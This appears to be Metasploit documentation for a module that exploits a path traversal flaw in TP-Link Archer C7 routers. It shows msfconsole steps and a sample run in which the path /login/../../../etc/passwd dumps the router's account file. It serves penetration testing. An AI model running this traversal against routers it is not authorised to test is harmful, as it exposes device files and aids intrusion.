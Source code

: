 ## Vulnerable Application

This module attempts to spider files from an archer c7 router using a known traversal
vulnerability

## Options

### FILE

This option sets what file you want to collect from the router.

### SAVE

Use this option to save the file found as loot

## Verification Steps

1. `use auxiliary/scanner/http/archer_c7_traversal`
2. `set RHOSTS <addr>`
3. `set FILE <file>`
4. `run`

## Scenarios

### Archer C7_V1_141204_US

```
msf6 > use auxiliary/scanner/http/archer_c7_traversal
msf6 auxiliary(scanner/http/archer_c7_traversal) > set rhosts 192.168.0.1
rhosts => 192.168.0.1
msf6 auxiliary(scanner/http/archer_c7_traversal) > run

[*] Grabbing data at /login/../../../etc/passwd
[+] /etc/passwd retrieved
root:x:0:0:root:/root:/bin/sh
Admin:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/bin/sh
daemon:x:2:2:daemon:/usr/sbin:/bin/sh
adm:x:3:4:adm:/adm:/bin/sh
lp:x:4:7:lp:/var/spool/lpd:/bin/sh
sync:x:5:0:sync:/bin:/bin/sync
shutdown:x:6:11:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
uucp:x:10:14:uucp:/var/spool/uucp:/bin/sh
operator:x:11:0:Operator:/var:/bin/sh
nobody:x:65534:65534:nobody:/home:/bin/sh
ap71:x:500:0:Linux Usermmm:/root:/bin/sh
admin:x:500:500:admin:/home:/bin/sh
guest:x:500:500:guest:/home:/bin/sh
root:x:0:0:root:/root:/bin/sh
admin:x:500:500:admin:/tmp/dropbear:/bin/sh

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
